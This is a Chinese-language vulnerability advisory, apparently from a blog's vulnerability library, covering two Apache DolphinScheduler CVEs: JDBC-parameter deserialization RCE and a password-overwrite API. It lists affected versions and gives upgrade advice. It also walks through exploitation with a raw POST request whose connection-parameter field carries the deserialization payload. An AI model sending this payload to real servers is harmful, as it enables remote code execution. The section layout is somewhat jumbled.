 ```yaml
---
title: 'Apache DolphinScheduler高危漏洞（CVE-2020-11974、CVE-2020-13922）'
date: Sun, 13 Sep 2020 10:22:11 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 漏洞描述

Apache软件基金会发布安全公告，修复了Apache DolphinScheduler权限覆盖漏洞（CVE-2020-13922）与Apache DolphinScheduler远程执行代码漏洞（CVE-2020-11974）。 CVE-2020-11974与mysql connectorj远程执行代码漏洞有关，在选择mysql作为数据库时，攻击者可通过jdbc connect参数输入{“detectCustomCollations”:true，“ autoDeserialize”:true} 在DolphinScheduler 服务器上远程执行代码。 CVE-2020-13922导致普通用户可通过api interface在DolphinScheduler 系统中覆盖其他用户的密码：api interface /dolphinscheduler/users/update，请相关用户及时升级进行防护。

#### 影响范围

Apache DolphinScheduler权限覆盖漏洞（CVE-2020-13922）

#### 受影响版本

Apache DolphinScheduler = 1.2.0、1.2.1、1.3.1

#### 不受影响版本

Apache DolphinScheduler >= 1.3.2 Apache DolphinScheduler远程执行代码漏洞（CVE-2020-11974） 它是⼀个分布式去中⼼化，易扩展的可视化DAG(有向⽆环图)⼯作流任务调度系统。利⽤漏洞:需要登录权限, \[09/12 态势感知\]提供⼀组默认密码。 该漏洞存在于数据源中⼼未限制添加的jdbc连接参数,从⽽实现JDBC客户端反序列化。

1、登录到⾯板 -> 数据源中⼼。

 ![](Apache%20DolphinScheduler%E9%AB%98%E5%8D%B1%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2020-11974%E3%80%81CVE-2020-13922%EF%BC%89/wp_editor_md_82bb068553ed084522f99c82bb20138f.jpg)

2、jdbc连接参数就是主⻆,这⾥没有限制任意类型的连接串参数。 ![](Apache%20DolphinScheduler%E9%AB%98%E5%8D%B1%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2020-11974%E3%80%81CVE-2020-13922%EF%BC%89/wp_editor_md_3554066562de399e0d191c5ce7d803ab.jpg)

3、将以下数据添加到jdbc连接参数中,就可以直接触发。 ![](Apache%20DolphinScheduler%E9%AB%98%E5%8D%B1%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2020-11974%E3%80%81CVE-2020-13922%EF%BC%89/wp_editor_md_15a00215f3b910880ff67daed2b15f71.jpg)

```
POST /dolphinscheduler/datasources/connect HTTP/1.1
type=MYSQL&name=test¬e=&host=127.0.0.1&port=3306&database=test&
principal=&userName=root&password=root&connectType=&
other={"detectCustomCollations":true,"autoDeserialize":true} 
```



```

#### 受影响版本

Apache DolphinScheduler = 1.2.0、1.2.1

#### 不受影响版本

Apache DolphinScheduler >= 1.3.1

#### 修复建议

官方升级 目前官方已在最新版本中修复了此次的漏洞，请受影响的用户尽快升级版本至1.3.2进行防护，官方下载链接： https://dolphinscheduler.apache.org/zhcn/docs/release/download.html
```